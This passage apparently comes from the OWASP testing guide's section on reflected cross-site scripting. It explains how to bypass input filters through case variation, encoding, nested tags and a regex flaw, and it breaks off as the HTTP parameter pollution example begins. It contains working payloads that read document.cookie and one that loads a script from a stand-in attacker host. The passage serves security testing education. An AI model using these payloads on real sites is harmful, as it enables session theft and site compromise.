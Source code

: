 Following some examples:
- `"><script >alert(document.cookie)</script >`
- `"><ScRiPt>alert(document.cookie)</ScRiPt>`
- `"%3cscript%3ealert(document.cookie)%3c/script%3e`
<br>
<br>
### Example 5: Bypassing Non-Recursive Filtering

Sometimes the sanitization is applied only once and it is not being performed recursively. In this case the attacker can beat the filter by sending a string containing multiple attempts, like this one:
`<scr<script>ipt>alert(document.cookie)</script>`
<br>
<br>
### Example 6: Including External Script

Now suppose that developers of the target site implemented the following code to protect the input from the inclusion of external script:
```
<?
    $re = "/<script[^>]+src/i";

    if (preg_match($re, $_GET['var']))
    {
        echo "Filtered";
        return;
    }
    echo "Welcome ".$_GET['var']." !";
?>
```

Decoupling the above regular expression:
1. Check for a `<script`
2. Check for a “ “ (white space)
3. Any character but the character `>` for one or more occurrences
4. Check for a `src`

This is useful for filtering expressions like `<script src="http://attacker/xss.js"></script>`
which is a common attack. But, in this case, it is possible to bypass the sanitization by using the `>` character in an attribute between script and src, like this:
`http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>`

This will exploit the reflected cross site scripting vulnerability shown before, executing the JavaScript code stored on the attacker’s web server as if it was originating from the victim web site, `http://example/`.
<br>
<br>
### Example 7: HTTP Parameter Pollution (HPP)

Another method to bypass filters is the HTTP Parameter Pollution, this technique was first presented by Stefano di Paola and Luca Carettoni in 2009 at the OWASP Poland conference. See the [Testing for HTTP Parameter pollution](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/04-Testing_for_HTTP_Parameter_Pollution) for more information. This evasion technique consists of splitting an attack vector between multiple parameters that have the same name. The manipulation of the value of each parameter depends on how each web technology is parsing these parameters, so this type of evasion is not always possible. If the tested environment concatenates the values of all parameters with the same name, then an attacker could use this technique in order to bypass pattern- based security mechanisms. Regular attack:
